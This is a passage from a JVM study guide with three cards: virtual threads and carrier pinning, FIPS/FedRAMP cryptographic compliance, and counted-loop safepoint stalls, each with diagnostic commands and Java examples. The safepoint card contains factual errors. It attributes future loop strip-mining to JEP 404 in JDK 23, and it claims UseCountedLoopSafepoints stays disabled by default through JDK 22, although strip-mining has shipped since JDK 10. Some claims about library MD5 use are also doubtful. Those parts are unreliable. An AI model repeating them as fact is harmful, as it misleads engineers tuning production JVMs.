    VT2 -.-> |unmounted| C1
    VT4 -.-> |unmounted| C2
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Virtual threads let you create millions of threads without running out of memory. They are lightweight threads managed by the JVM instead of the OS. When a virtual thread blocks (waits for network/database), it frees up the underlying OS thread for other work.

**Level 2 - How to use it:** Replace `Executors.newFixedThreadPool(200)` with `Executors.newVirtualThreadPerTaskExecutor()`. Each task gets its own virtual thread. No pool sizing needed. Works with JDK 21+.

**Level 3 - How it works:** Virtual threads are multiplexed onto a small pool of carrier (platform) threads via continuations. When a virtual thread calls blocking I/O, the JVM saves its stack (continuation), unmounts it from the carrier, and mounts another ready virtual thread. When the I/O completes, the virtual thread is re-scheduled onto any available carrier.

**Level 4 - Production mastery:** Key pitfalls: (1) `synchronized` blocks PIN the virtual thread to its carrier (carrier cannot serve others). Replace hot synchronized blocks with `ReentrantLock` for virtual thread compatibility. Monitor with JFR event `jdk.VirtualThreadPinned`. (2) Thread-locals with large values at 100K virtual threads = 100K copies (memory explosion). Use scoped values (JDK 21 preview) instead. (3) CPU-bound code: virtual threads do NOT add parallelism - still limited by carrier count. Only I/O-bound workloads benefit.

---

### ⚙️ How It Works

**Phase 1 - Creation:** Virtual thread created with minimal stack (few KB). Registered with scheduler but not yet mounted on carrier.

**Phase 2 - Execution:** Scheduler assigns virtual thread to a free carrier. Virtual thread executes on the carrier's OS thread.

**Phase 3 - Blocking (unmount):** Virtual thread calls blocking operation (I/O, sleep, lock.lock()). JVM saves continuation (stack state). Unmounts virtual thread from carrier. Carrier is now free.

**Phase 4 - Resumption (mount):** Blocking operation completes. Virtual thread becomes runnable. Scheduler mounts it on any available carrier (may be different from original). Execution resumes from saved state.

```text
Virtual thread lifecycle:
  NEW -> RUNNABLE -> RUNNING (on carrier)
    -> BLOCKING (unmount from carrier)
    -> WAITING (carrier freed for others)
    -> RUNNABLE (I/O complete)
    -> RUNNING (mounted on any carrier)
    -> TERMINATED

Pinning scenario (synchronized):
  VT-1 enters synchronized block
  VT-1 calls socket.read() INSIDE sync block
  VT-1 CANNOT unmount (holds monitor)
  Carrier-A is BLOCKED (wasted)
  Other VTs waiting for Carrier-A starve
```

```mermaid
stateDiagram-v2
    [*] --> New
    New --> Runnable: start()
    Runnable --> Running: mounted on carrier
    Running --> Blocked: blocking I/O
    Blocked --> Runnable: I/O complete
    Running --> Pinned: synchronized + block
    Pinned --> Running: exits sync block
    Running --> Terminated: completes
```

---

### 🚨 Failure Modes

**Failure 1 - Carrier Thread Starvation (Pinning):**

**Symptom:** Application throughput drops to near-zero. All carrier threads blocked despite low CPU. JFR shows `jdk.VirtualThreadPinned` events.

**Root cause:** Virtual threads pinned inside `synchronized` blocks that perform blocking I/O. All carriers occupied by pinned threads; no carriers available for other virtual threads.

**Diagnostic:**

```bash
# JFR event for pinning:
jcmd <pid> JFR.start duration=30s \
  settings=profile filename=pin.jfr
# In JMC: look for VirtualThreadPinned events
# -Djdk.tracePinnedThreads=short (JDK 21)
```

**Fix:** Replace `synchronized` with `ReentrantLock` for blocks that perform I/O:

```java
// Instead of: synchronized(lock) { io(); }
private final ReentrantLock lock = new ReentrantLock();
lock.lock();
try { io(); } finally { lock.unlock(); }
// ReentrantLock allows unmounting during I/O
```

**Failure 2 - ThreadLocal Memory Explosion:**

**Symptom:** OutOfMemoryError with millions of virtual threads. Each thread holding ThreadLocal with large object (connection, buffer).

**Root cause:** ThreadLocals multiplied by virtual thread count. 1M threads x 64KB buffer = 64GB.

**Diagnostic:**

```bash
# Heap dump - search for ThreadLocalMap
# entries with large values
# Count unique Thread instances in heap:
jcmd <pid> GC.class_histogram | grep Thread
```

**Fix:** Use scoped values (JDK 21 preview) or eliminate ThreadLocals in virtual thread code. Pass context explicitly.

---

### 🔬 Production Reality

Early adopters (JDK 21, 2023-2024) report: replacing thread pool-based HTTP servers with virtual thread-per-request achieves equivalent throughput with dramatically simpler code. The main migration pain point is `synchronized` pinning in JDBC drivers and connection pools (HikariCP synchronized blocks pin carriers). HikariCP 5.1+ and most JDBC drivers are releasing virtual-thread-aware versions that replace synchronized with ReentrantLock. The recommendation: adopt virtual threads for new services, migrate existing services after verifying dependency compatibility.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | Virtual Threads   | Reactive (WebFlux)  | Platform Threads   |
| -------------- | ----------------- | ------------------- | ------------------ |
| Concurrency    | 1M+ (I/O bound)   | 100K+ (I/O bound)   | 5K-10K max         |
| Code style     | Blocking (simple) | Reactive (complex)  | Blocking (simple)  |
| CPU-bound      | No benefit        | No benefit          | Direct parallelism |
| Learning curve | Low (same API)    | High (new paradigm) | None               |
| Ecosystem      | Evolving (JDK 21) | Mature (5+ years)   | Fully mature       |

---

### ⚡ Decision Snap

**USE VIRTUAL THREADS WHEN:**

- I/O-bound workload (HTTP, DB, messaging).
- Want simple blocking code at high concurrency.
- JDK 21+ and dependencies are compatible.

**USE REACTIVE (WebFlux) WHEN:**

- Already invested in reactive ecosystem.
- Need backpressure semantics (streaming data).
- JDK < 21 (no virtual thread support).

**USE PLATFORM THREADS WHEN:**

- CPU-bound workload (computation, not I/O).
- Need precise thread affinity (NUMA pinning).
- Legacy code that cannot migrate.

---

### ⚠️ Top Traps

| #   | Misconception                      | Reality                                                                                              |
| --- | ---------------------------------- | ---------------------------------------------------------------------------------------------------- |
| 1   | "Virtual threads add parallelism"  | They add CONCURRENCY, not parallelism. CPU-bound work still limited by core count.                   |
| 2   | "No need for thread pools anymore" | Correct for I/O-bound virtual threads. Still need pools for CPU-bound work and resource limiting.    |
| 3   | "synchronized works fine"          | synchronized PINS virtual thread to carrier. Use ReentrantLock for blocks that perform I/O.          |
| 4   | "ThreadLocals work the same"       | At 1M virtual threads, ThreadLocals consume 1M copies of stored value. Memory explosion risk.        |
| 5   | "Virtual threads fix everything"   | Only fix I/O concurrency. Database connection limits, API rate limits still apply (need semaphores). |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-055 Safepoints - What Stops the World - virtual threads interact differently with safepoints
- JVM-082 Biased Locking Removed JDK 15 and Thin Locks - synchronized/lock interaction with VTs

**THIS:** JVM-091 Project Loom and Virtual Thread Scheduling

**Next steps:**

- JVM-093 The Billion-Dollar Safepoint Bug Pattern - pinning as a modern safepoint-like issue
- JVM-080 Safepoint Bias and Time-To-Safepoint Latency - carrier starvation mimics safepoint delays

---

**The Surprising Truth:**

Virtual threads make thread-per-request the CORRECT architecture again. For 15 years, Java best practice was "never create a thread per request - use thread pools." This advice exists because OS threads are expensive (1MB stack, slow creation). Virtual threads are cheap (1KB stack, ~1us creation). The thread-per-request model that was abandoned as unscalable in 2008 is now the RECOMMENDED pattern in 2024. Reactive programming (WebFlux, RxJava) solved a problem that virtual threads eliminate - the need for non-blocking I/O to achieve high concurrency with limited threads.

**Further Reading:**

- JEP 444: Virtual Threads (JDK 21, GA)
- Ron Pressler, "Project Loom: Fibers, Continuations and Tail-Calls for the JVM" (JVMLS 2018)
- Alan Bateman, "Virtual Threads: An Adoption Guide" (Inside.java, 2023)

**Revision Card:**

1. Virtual threads: M:N scheduling. Millions of VTs on N carrier threads (N = CPU cores). I/O-bound concurrency without reactive complexity.
2. Pinning trap: `synchronized` + blocking I/O pins carrier. Use ReentrantLock. Monitor with JFR `jdk.VirtualThreadPinned`.
3. Does NOT add parallelism. CPU-bound code limited by carrier count. Only I/O-bound workloads benefit from virtual threads.

**BAD:**

```java
// Pinning carrier with synchronized + I/O
synchronized (connectionPool) {
    Connection conn = connectionPool.acquire();
    // Carrier thread PINNED for entire query
    ResultSet rs = conn.executeQuery(sql);
    // 50ms blocking with carrier stuck
    connectionPool.release(conn);
}
// All carriers pinned -> zero throughput
```

**GOOD:**

```java
// ReentrantLock allows unmounting during I/O
private final ReentrantLock poolLock =
    new ReentrantLock();
poolLock.lock();
try {
    Connection conn = connectionPool.acquire();
    poolLock.unlock(); // Release lock before I/O
    try {
        ResultSet rs = conn.executeQuery(sql);
        // Virtual thread unmounts here (carrier free)
    } finally {
        poolLock.lock();
        connectionPool.release(conn);
    }
} finally {
    poolLock.unlock();
}
```

---

---

# JVM-092 JVM Compliance - FIPS, FedRAMP Considerations

**TL;DR** - Running JVM workloads in FIPS/FedRAMP environments requires validated cryptographic modules, restricted algorithm configurations, and specific JDK distributions that have undergone compliance certification.

---

### 🔥 Problem Statement

A development team builds a microservice that must run in a FedRAMP-authorized cloud environment. The security team rejects the deployment: "JVM's default cryptographic provider (SunJCE) is not FIPS 140-2 validated." The team did not realize that compliance requirements restrict which JDK distributions can be used, which cryptographic algorithms are available, and how TLS is configured. Without FIPS-validated crypto, the service cannot operate in regulated environments - regardless of how well it functions.

---

### 📜 Historical Context

FIPS 140-2 (Federal Information Processing Standard) mandates validated cryptographic modules for US government systems. FedRAMP extends this to cloud services handling government data. Java's default crypto providers (SunJCE, SunJSSE) are NOT FIPS-validated because Oracle/OpenJDK has not submitted them for validation. Solutions emerged: (1) Bouncy Castle FIPS certified module (2017), (2) Red Hat's RHEL-based FIPS mode (OpenSSL-backed FIPS module), (3) Azul Zulu with FIPS support. The FIPS 140-3 standard (2022) updates requirements but transition is ongoing.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Validation is per-module, not per-JDK:** FIPS validates specific cryptographic MODULE implementations (e.g., OpenSSL FIPS module, BC-FIPS). The JDK itself is not the unit of validation.
2. **Algorithm restriction is mandatory:** FIPS mode disables non-approved algorithms (MD5, DES, non-standard curves). Code using these algorithms FAILS at runtime in FIPS mode.
3. **Configuration determines compliance:** A validated module running in non-FIPS mode provides no compliance benefit. The FIPS mode must be ENABLED and verified.

**DERIVED DESIGN:**

These invariants mean: (1) choose a JDK distribution with FIPS-validated crypto path (RHEL OpenJDK + OpenSSL FIPS, or Bouncy Castle FIPS), (2) test ALL crypto operations under FIPS mode (many libraries use non-approved algorithms by default), (3) document which module provides FIPS validation and its certificate number.

**THE TRADE-OFF:**

**Gain:** Regulatory compliance. Authorization to operate in government and regulated environments. Auditable cryptographic operations.

**Cost:** Limited algorithm choice. Performance overhead (validated modules may be slower). Restricted JDK choices. Testing complexity (must test under FIPS mode separately).

---

### 🧠 Mental Model

> FIPS compliance is like a restaurant health certification. The kitchen (JVM) can cook anything, but the certification (FIPS) only covers specific recipes (approved algorithms) made with inspected ingredients (validated modules). Using uncertified ingredients (SunJCE) means the health department (auditor) shuts you down - even if the food tastes the same.

- "Kitchen" -> JVM runtime
- "Recipes" -> cryptographic algorithms
- "Inspected ingredients" -> FIPS-validated module
- "Health certification" -> FIPS 140-2 validation certificate
- "Health department" -> compliance auditor / ATO authority

**Where this analogy breaks down:** restaurants can use any ingredient and choose not to be certified. In regulated environments, FIPS compliance is MANDATORY - there is no option to operate without it. Also, the validation process takes 12-24 months and costs $100K+.

---

### 🧩 Components

- **FIPS 140-2/3 module:** Validated cryptographic implementation. Examples: OpenSSL FIPS module, Bouncy Castle FIPS (bc-fips), NSS FIPS module.
- **JCA/JCE provider configuration:** `java.security` file specifies provider order. FIPS mode forces the validated provider as primary.
- **Algorithm restrictions:** FIPS disables: MD5 (for non-signing), DES, 3DES (deprecated in FIPS 140-3), RC4, non-NIST curves. Only AES, SHA-2/3, RSA 2048+, ECDSA with approved curves.
- **TLS configuration:** Only TLS 1.2+ with FIPS-approved cipher suites. No anonymous suites, no export suites, no weak key exchange.
- **FIPS mode flag:** OS-level (RHEL `fips=1` kernel param) or JDK-level (provider config). Enforcement is system-wide or per-JVM.

```text
FIPS-compliant JVM stack:

  Option A: RHEL + OpenJDK + OpenSSL FIPS
    OS: RHEL 8/9 in FIPS mode (fips=1)
    JDK: Red Hat OpenJDK (patched for FIPS)
    Crypto: OpenSSL 3.x FIPS module
    Certificate: OpenSSL FIPS #4282

  Option B: Any JDK + Bouncy Castle FIPS
    OS: Any Linux
    JDK: Any OpenJDK 11+
    Crypto: bc-fips-1.0.x.jar as JCA provider
    Certificate: BC-FJA FIPS #3514

  Non-compliant (default):
    OS: Any
    JDK: Standard OpenJDK
    Crypto: SunJCE (NOT validated)
    Certificate: NONE - not FIPS compliant
```

```mermaid
flowchart TD
    A[Application Code] --> B[JCA API: Cipher, Mac, etc.]
    B --> C{FIPS Mode?}
    C -->|Yes| D[FIPS-validated Provider]
    C -->|No| E[SunJCE - not validated]
    D --> F[Algorithm check]
    F -->|Approved| G[Execute operation]
    F -->|Non-approved| H[REJECT: algorithm not allowed]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Some environments (government, healthcare, finance) require that all cryptography uses officially validated implementations. Standard Java crypto is NOT validated. You need specific JDK configurations or add-on libraries to achieve compliance.

**Level 2 - How to use it:** Choose your FIPS strategy: (a) Run on RHEL in FIPS mode with Red Hat OpenJDK, or (b) Add Bouncy Castle FIPS JAR and configure as primary provider. Test all TLS connections and crypto operations under FIPS mode.

**Level 3 - How it works:** FIPS mode replaces the JVM's default crypto providers with a validated module. All `Cipher.getInstance()`, `Mac.getInstance()`, etc. calls route to the FIPS module. The module rejects non-approved algorithms at runtime (throws exception). TLS handshakes only use approved cipher suites.

**Level 4 - Production mastery:** The operational challenge: libraries that use non-approved algorithms fail silently or throw cryptic exceptions under FIPS. Common failures: (1) Jackson using MD5 for hashCode (not security - but FIPS rejects ALL MD5 usage), (2) HTTP clients using RC4 or 3DES cipher suites for legacy server compatibility, (3) Key derivation using non-approved KDFs. Requires extensive testing under FIPS mode before deployment. Maintain a FIPS compatibility test suite that runs in CI.

---

### ⚙️ How It Works

**Phase 1 - Module Activation:** At JVM startup, security provider list is configured to prioritize the FIPS module (via `java.security` file or system property).

**Phase 2 - Self-Test:** FIPS module runs known-answer tests (KATs) on startup to verify correct operation. If self-test fails, module refuses to operate.

**Phase 3 - Algorithm Gatekeeping:** Every crypto operation request is checked against the approved algorithm list. Non-approved algorithms are rejected immediately.

**Phase 4 - Key Management:** Keys must meet minimum sizes (RSA 2048+, AES 128+). Weak key generation attempts are rejected.

```text
FIPS mode startup sequence:
  1. Load FIPS provider (bc-fips or OpenSSL)
  2. Run self-tests (KAT: Known Answer Tests)
     - AES encrypt/decrypt test vector
     - SHA-256 hash test vector
     - HMAC test vector
     - RSA sign/verify test vector
  3. If ANY self-test fails: module DISABLED
  4. Register as priority 1 JCA provider
  5. Application crypto calls route to module
  6. Non-approved algo -> immediate exception

Runtime algorithm check:
  Cipher.getInstance("AES/GCM/NoPadding")
    -> APPROVED (FIPS allows AES-GCM)
  Cipher.getInstance("RC4")
    -> REJECTED: NoSuchAlgorithmException
  MessageDigest.getInstance("MD5")
    -> REJECTED (or degraded in some configs)
```

```mermaid
sequenceDiagram
    participant App as Application
    participant JCA as JCA Framework
    participant FIPS as FIPS Module
    App->>JCA: Cipher.getInstance("AES/GCM")
    JCA->>FIPS: request AES-GCM
    FIPS->>FIPS: check approved list (YES)
    FIPS-->>JCA: Cipher instance
    JCA-->>App: ready to use
    App->>JCA: Cipher.getInstance("RC4")
    JCA->>FIPS: request RC4
    FIPS->>FIPS: check approved list (NO)
    FIPS-->>JCA: NoSuchAlgorithmException
```

---

### 🚨 Failure Modes

**Failure 1 - Unexpected Algorithm Rejection:**

**Symptom:** Application works in non-FIPS environment but throws `NoSuchAlgorithmException` or `InvalidAlgorithmParameterException` in FIPS mode.

**Root cause:** Library uses non-approved algorithm internally (MD5 for cache key, 3DES for legacy protocol, non-NIST EC curve).

**Diagnostic:**

```bash
# Run with security debug to see provider calls:
java -Djava.security.debug=provider \
  -jar app.jar 2>&1 | grep -i "reject\|fail"
# Identifies which algorithm request failed
# and from which code path
```

**Fix:** Configure library to use approved algorithm. If not configurable, replace library. Some FIPS modules have "non-strict" mode allowing MD5 for non-security uses (check certification scope).

**Failure 2 - Performance Regression:**

**Symptom:** 30-50% throughput drop after enabling FIPS mode. TLS handshakes significantly slower.

**Root cause:** FIPS module does not use hardware acceleration (AES-NI, SHA-NI) or uses software implementation for compliance reasons.

**Diagnostic:**

```bash
# Compare TLS handshake time:
openssl s_time -connect host:443 -new -num 1000
# FIPS mode: check if AES-NI used:
# Provider documentation specifies HW support
```

**Fix:** Ensure FIPS module version supports hardware acceleration (newer versions do). OpenSSL 3.x FIPS module supports AES-NI. BC-FIPS 1.0.2+ supports hardware path.

---

### 🔬 Production Reality

The most common FIPS deployment pattern: RHEL 8/9 in FIPS mode as container base image. Red Hat builds OpenJDK with patches that route all JCA calls through the system's OpenSSL FIPS module when FIPS mode is active at the OS level. This is the lowest-friction path because it requires no application code changes - the FIPS routing happens transparently at the JDK level. However, testing is still essential: algorithms that work in non-FIPS mode may fail, and legacy protocols (TLS 1.0/1.1) are disabled.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | RHEL FIPS mode    | BC-FIPS JAR     | Custom NSS config |
| --------------- | ----------------- | --------------- | ----------------- |
| Complexity      | Low (OS-level)    | Medium (config) | High              |
| JDK flexibility | Red Hat OpenJDK   | Any JDK         | Specific NSS ver. |
| Performance     | Good (OpenSSL HW) | Moderate        | Good              |
| Certificate     | OpenSSL FIPS cert | BC-FJA cert     | NSS FIPS cert     |
| Maintenance     | OS updates        | JAR updates     | Manual            |

---

### ⚡ Decision Snap

**USE RHEL FIPS MODE WHEN:**

- Running on RHEL/CentOS/Rocky Linux.
- Want transparent FIPS without code changes.
- Using Red Hat OpenJDK or compatible.

**USE BOUNCY CASTLE FIPS WHEN:**

- Need FIPS on non-RHEL platform (Ubuntu, Alpine).
- Must use specific JDK distribution (Azul, Amazon Corretto).
- Need fine-grained control over provider configuration.

**PLAN FOR FIPS EARLY WHEN:**

- Product targets government, military, or regulated industries.
- FedRAMP authorization is in the roadmap (1-2 year horizon).

---

### ⚠️ Top Traps

| #   | Misconception                             | Reality                                                                                                                     |
| --- | ----------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| 1   | "Java is FIPS compliant by default"       | Standard OpenJDK's SunJCE is NOT validated. Requires specific configuration or modules.                                     |
| 2   | "FIPS = just use AES and SHA"             | FIPS restricts modes, key sizes, padding, and KDFs too. AES-ECB may be restricted. Specific curve sets for ECDSA.           |
| 3   | "Testing in non-FIPS mode is sufficient"  | Many libraries use non-approved algorithms that only fail in FIPS mode. Must test in FIPS mode specifically.                |
| 4   | "FIPS 140-2 validated = always compliant" | Certificate covers specific module version. Upgrading the library may void the certificate if new version not re-validated. |
| 5   | "Only crypto code needs FIPS"             | Any code touching TLS, hashing, signing, key exchange, random number generation is affected. Broader than expected.         |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-062 JVM Security Manager - Deprecated Alternatives - understand JVM security architecture
- JVM-086 Log4Shell and JVM Attack Surface (2021) - security context for compliance

**THIS:** JVM-092 JVM Compliance - FIPS, FedRAMP Considerations

**Next steps:**

- JVM-090 Ahead-of-Time Compilation (GraalVM Native) - native image compliance implications (FIPS + AOT)
- JVM-095 JVM Fleet Observability - Key Metrics - compliance monitoring at fleet scale

---

**The Surprising Truth:**

FIPS compliance can break your application in ways completely unrelated to security. Example: Apache HttpClient 4.x internally uses MD5 to generate cache keys for connection pooling (not for any security purpose). In FIPS strict mode, ALL MD5 usage is rejected - including this non-security use. The connection pool fails with `NoSuchAlgorithmException`, and the error message gives no hint that it is a FIPS issue. This pattern (non-security usage of restricted algorithms) is the #1 cause of FIPS deployment failures and requires exhaustive testing with full call-path coverage.

**Further Reading:**

- NIST SP 800-140: FIPS 140-3 Implementation Guidance
- Red Hat documentation: "Using RHEL in FIPS Mode with OpenJDK"
- Bouncy Castle documentation: "BC-FJA User Guide" (FIPS Java API)

**Revision Card:**

1. Standard OpenJDK crypto (SunJCE) is NOT FIPS validated. Use RHEL FIPS mode + OpenSSL module or Bouncy Castle FIPS JAR.
2. FIPS rejects non-approved algorithms at runtime. Libraries using MD5, RC4, DES, non-NIST curves will FAIL. Test in FIPS mode.
3. Lowest-friction path: RHEL 8/9 + `fips=1` kernel param + Red Hat OpenJDK. Transparent, no code changes required.

**BAD:**

```java
// Assuming default JDK is FIPS compliant
// Deployed to FedRAMP environment:
MessageDigest md = MessageDigest.getInstance("MD5");
// Works in dev, FAILS in FIPS production:
// NoSuchAlgorithmException: MD5 not available
// (FIPS module rejects MD5 entirely)
// Also: no FIPS module configured at all
// -> audit failure: "no validated crypto"
```

**GOOD:**

```java
// FIPS-approved algorithms only
MessageDigest md =
    MessageDigest.getInstance("SHA-256");
// AES-GCM for encryption:
Cipher cipher =
    Cipher.getInstance("AES/GCM/NoPadding");
// Verified: bc-fips-1.0.2.4.jar configured
// as priority 1 provider in java.security
// CI pipeline includes FIPS-mode test suite
// that catches non-approved algo usage early
```

---

---

# JVM-093 The Billion-Dollar Safepoint Bug Pattern

**TL;DR** - Counted loops without safepoint polls run unbounded before reaching a safepoint, creating pauses where one thread delays the entire JVM stop-the-world.

---

### 🔥 Problem Statement

A JVM application shows periodic, unexplained pauses of 5-30 seconds. GC logs show the GC itself is fast (50ms), but "time to safepoint" is 25 seconds. One thread running a counted loop (`for (int i = 0; i < array.length; i++)`) is preventing the JVM from reaching a safepoint because C2-compiled counted loops do not contain safepoint polls. Every other thread has stopped and is waiting for this ONE thread to finish its loop iteration. The entire JVM is hostage to a single optimized loop.

---

### 📜 Historical Context

This optimization exists because safepoint polls in tight loops add measurable overhead (1-5% throughput loss). C2 recognizes "counted loops" (loops with int/long counter and known bound) and omits safepoint polls to maximize throughput. The assumption: counted loops are short. The reality: counted loops iterating over large arrays (millions of elements) or performing expensive per-element computation can run for seconds. JDK 23 (JEP 404 planned) aims to add loop strip-mining (chunking) to all counted loops, bounding TTSP. Until then, this is a production hazard on JDK 8 through 22.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **JVM stop-the-world requires ALL threads at safepoints:** A GC or deoptimization cannot proceed until every thread has reached a safe state. One slow thread blocks all.
2. **C2 omits polls in counted loops:** Performance optimization. A safepoint poll is a memory load + branch (~5ns). In a tight loop running billions of times, this adds up.
3. **Uncounted loops DO have polls:** Loops with unknown bounds (while, iterator-based) contain safepoint polls and cannot cause this issue.

**DERIVED DESIGN:**

These invariants mean: (1) any counted loop iterating > ~10K times is a TTSP hazard, (2) converting to uncounted loop (iterator) or adding manual safepoint (Thread.yield, method call) fixes the issue, (3) loop strip-mining (JDK 10+ with `-XX:+UseCountedLoopSafepoints`) is the JVM-level fix.

**THE TRADE-OFF:**

**Gain:** Tight counted loops run 1-5% faster without safepoint poll overhead.

**Cost:** Potentially unbounded TTSP. One thread can pause entire JVM for seconds. Extremely hard to diagnose without knowing this pattern.

---

### 🧠 Mental Model

> Safepoints are like fire drills where everyone must reach the assembly point. Counted loops are employees wearing noise-canceling headphones - they cannot hear the fire alarm (safepoint poll is absent). Everyone else reaches the assembly point in milliseconds, but one headphone-wearing employee in a long meeting (billion iterations) keeps everyone waiting 25 seconds. The fix: tap them on the shoulder periodically (add safepoint polls) or limit meetings to 5-minute chunks (loop strip-mining).

- "Fire drill" -> stop-the-world request (GC, deopt)
- "Assembly point" -> safepoint
- "Noise-canceling headphones" -> no safepoint poll in loop
- "Long meeting" -> counted loop with many iterations
- "Everyone waiting" -> all threads stopped except one
- "Tap on shoulder" -> manual safepoint or poll insertion

**Where this analogy breaks down:** in a real fire drill, you would physically find the person. The JVM CANNOT interrupt a thread mid-loop - it must wait for the thread to voluntarily reach a poll point. There is no "forced preemption" for safepoint compliance.

---

### 🧩 Components

- **Safepoint poll:** Memory load from a page that is either readable (no safepoint requested) or protected (safepoint requested, causes trap/signal). Located at method returns, loop back-edges (uncounted), and deopt points.
- **Counted loop:** C2's definition: `for` loop with int/long counter, known bounds, and increment. C2 proves it terminates and OMITS polls.
- **Time-to-safepoint (TTSP):** Duration between safepoint request and ALL threads reaching safepoint. Dominated by the SLOWEST thread.
- **Loop strip-mining:** JDK 10+ (`-XX:+UseCountedLoopSafepoints`): C2 splits counted loops into chunks (default ~1024 iterations) with safepoint poll between chunks. Bounds TTSP.
- **-XX:+UseCountedLoopSafepoints:** Enables strip-mining for counted loops. Default: disabled (JDK 8-22). The fix for this entire problem class.

```text
Counted loop (C2 compiled, NO safepoint poll):
  for (int i = 0; i < 10_000_000; i++) {
      sum += array[i];
      // NO safepoint poll here
      // Thread runs 10M iterations uninterrupted
      // At 1ns/iter: 10ms blocked
      // At 100ns/iter: 1 SECOND blocked
  }

  GC requests safepoint:
    199 threads reach safepoint in 1ms
    1 thread in counted loop: 25s remaining
    TTSP = 25 seconds (unacceptable)

Fix (strip-mining, UseCountedLoopSafepoints):
  for (int i = 0; i < 10_000_000; ) {
      int chunk = min(1024, 10_000_000 - i);
      for (int j = 0; j < chunk; j++, i++) {
          sum += array[i]; // inner: no poll
      }
      // SAFEPOINT POLL here (between chunks)
      // Max TTSP: 1024 iterations * cost/iter
  }
```

```mermaid
sequenceDiagram
    participant GC as GC Thread
    participant T1 as Thread 1 (at poll)
    participant T2 as Thread 2 (counted loop)
    GC->>T1: safepoint requested
    GC->>T2: safepoint requested
    T1->>GC: reached safepoint (1ms)
    Note over T2: still in counted loop...
    Note over T2: no poll to check...
    Note over T2: 5 seconds pass...
    T2->>GC: loop finishes, hits poll (5s!)
    Note over GC: TTSP = 5 seconds
    GC->>GC: NOW can start GC (50ms)
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Some optimized loops in Java prevent the JVM from pausing for garbage collection. One thread running a long loop can delay ALL other threads for seconds because the GC cannot start until every thread is ready.

**Level 2 - How to use it:** Enable `-XX:+UseCountedLoopSafepoints` (JDK 10+). Monitor TTSP with `-Xlog:safepoint=info`. If TTSP > 100ms: investigate which thread is slow (look for threads "not at safepoint" in safepoint logs).

**Level 3 - How it works:** C2 compiler optimizes "counted loops" (for loops with int counter) by removing safepoint polls from the loop body. This makes the loop faster but means the thread cannot respond to safepoint requests until the loop completes. Loop strip-mining splits the loop into chunks with polls between them, bounding the maximum time any thread can be unresponsive.

**Level 4 - Production mastery:** Diagnosis path: (1) `-Xlog:safepoint+stats=info` shows per-safepoint TTSP. (2) High TTSP events: correlate timestamp with thread activity. (3) `async-profiler -e wall` shows which threads are executing (not blocked) during the TTSP window. (4) Identify the counted loop. (5) Fix: enable UseCountedLoopSafepoints, or restructure the loop (use iterator, add manual `Thread.onSpinWait()` every N iterations).

---

### ⚙️ How It Works

**Phase 1 - Safepoint Request:** GC (or deopt) needs stop-the-world. Sets the safepoint page to protected.

**Phase 2 - Threads Respond:** Threads at method returns, uncounted loop back-edges, or in blocked state reach safepoint quickly (microseconds).

**Phase 3 - Straggler in Counted Loop:** One thread is inside C2-compiled counted loop. No poll in loop body. Thread continues executing loop iterations.

**Phase 4 - Wait:** All other threads are stopped and waiting. The straggler thread continues until loop completes or reaches the next poll point (method call inside loop body, if any).

**Phase 5 - Eventual Completion:** Loop finishes (or reaches non-inlined method call). Thread hits safepoint poll. FINALLY reaches safepoint. GC can proceed.

```text
C2 optimization decision tree for loops:
  Is loop counted? (int/long counter, known bound)
    YES: Omit safepoint poll (performance)
         UNLESS UseCountedLoopSafepoints=true
    NO:  Include safepoint poll at back-edge

  "Counted" means C2 can PROVE:
    - Loop variable is int or long
    - Increment is constant
    - Bound is loop-invariant
    - Loop terminates

  Examples:
    COUNTED (no poll): for(int i=0; i<n; i++)
    COUNTED (no poll): for(long i=0; i<n; i+=2)
    UNCOUNTED (has poll): while(iter.hasNext())
    UNCOUNTED (has poll): for(;;) { if(x) break; }
```

```mermaid
flowchart TD
    A[C2 Compiles Loop] --> B{Is loop counted?}
    B -->|Yes| C{UseCountedLoopSafepoints?}
    B -->|No| D[Include safepoint poll]
    C -->|Yes| E[Strip-mine: poll every 1024 iters]
    C -->|No| F[NO SAFEPOINT POLL - TTSP hazard]
    D --> G[TTSP bounded: microseconds]
    E --> G
    F --> H[TTSP unbounded: seconds possible]
```

---

### 🚨 Failure Modes

**Failure 1 - Array Processing Stall:**

**Symptom:** Periodic 5-30s application pauses. GC log shows fast GC (50ms) but TTSP of 20+ seconds. One thread always the last to reach safepoint.

**Root cause:** Thread processing large array in counted `for` loop. C2-compiled without safepoint polls.

**Diagnostic:**

```bash
# Enable safepoint logging:
-Xlog:safepoint=info:file=safepoint.log:time
# Look for: "Safepoint ... TTSP: 25000ms"
# Identify slow thread: "Thread 0x... not at SP"
# Profile during stall (async-profiler):
asprof -e wall -d 30 -t <pid>
# Shows which thread is running (not blocked)
```

**Fix:**

```bash
# JVM-level fix (JDK 10+):
-XX:+UseCountedLoopSafepoints
# Or code-level fix:
# Replace: for(int i=0; i<arr.length; i++)
# With: for(Object o : collection) (iterator)
```

**Failure 2 - JNI Call Masking Safepoint:**

**Symptom:** Similar to counted loop stall, but the thread is in JNI (native) code. `-XX:+UseCountedLoopSafepoints` does not help.

**Root cause:** JNI calls do not poll safepoints. Long-running native methods block TTSP identically to counted loops.

**Diagnostic:**

```bash
# Thread dump shows thread "in native":
jcmd <pid> Thread.print | grep -A5 "in native"
# Safepoint log shows JNI thread as straggler
```

**Fix:** Split long JNI operations into shorter calls that return to Java (allow safepoint between calls). Or redesign native code to be shorter.

---

### 🔬 Production Reality

This pattern is the single most common cause of unexplained multi-second JVM pauses that are NOT caused by GC itself. Teams see "GC pause" of 25 seconds in their metrics, blame GC tuning, and spend weeks adjusting heap sizes - when the actual problem is 25 seconds of TTSP plus 50ms of actual GC. The fix is a single JVM flag (`-XX:+UseCountedLoopSafepoints`) that should arguably be the default. It is not the default because it adds 1-5% overhead to tight numeric loops (scientific computing, financial calculations).

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Default (no poll) | UseCountedLoopSP   | Manual restructure  |
| --------------- | ----------------- | ------------------ | ------------------- |
| Tight loop perf | Maximum           | 1-5% slower        | Varies              |
| TTSP bounded    | NO (seconds)      | YES (microseconds) | YES (if done right) |
